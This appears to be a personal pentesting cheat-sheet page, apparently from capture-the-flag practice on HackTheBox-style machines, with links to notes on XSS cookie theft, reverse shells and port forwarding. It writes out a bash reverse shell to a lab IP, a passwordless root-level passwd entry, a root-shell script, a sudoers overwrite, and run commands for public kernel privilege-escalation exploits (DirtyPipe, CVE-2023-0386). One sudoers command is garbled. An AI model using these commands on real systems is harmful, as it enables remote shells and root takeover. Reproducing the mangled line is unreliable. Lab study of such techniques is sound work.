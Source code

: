 [[Cyber - Type Confusion]]

[[Cyber - Exploiting XSS-stealing cookies]]

[[Cyber - Reverse Shell]]

[[Cyber - Wildcards Spare tricks]]

[[Cyber - Port Forwarding]]

[[Cyber - PHAR - PHP]]

[[Cyber - SSH - Assinando Chaves com certificado ]]

---

Elastic Search
Wazuh

log_file=/root/root.txt; cp /dev/shm/sudoers> /etc/suoderskanalyze_log

---

[[Cyber - Subdomain enumeration]]

---

echo -e '#!/bin/bash\n/bin/bash' > /tmp/initdb.sh

Criar um usuário sem senha e com a shell do root : root4::0:0:root4:/root:/bin/bash

Fazer conexão remota : bash -i >& /dev/tcp/10.10.14.4/1234 0>&1

---

site de hashes : https://gchq.github.io/CyberChef/

---

https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits?tab=readme-ov-file

---
https://github.com/xkaneiki/CVE-2023-0386
./fuse ./ovlcap/lower ./gc &
./exp


netstat -tnlp

#### Port Fowarding ssh
sudo ssh -L 8080:127.0.0.1:8080 michael@sightless.htb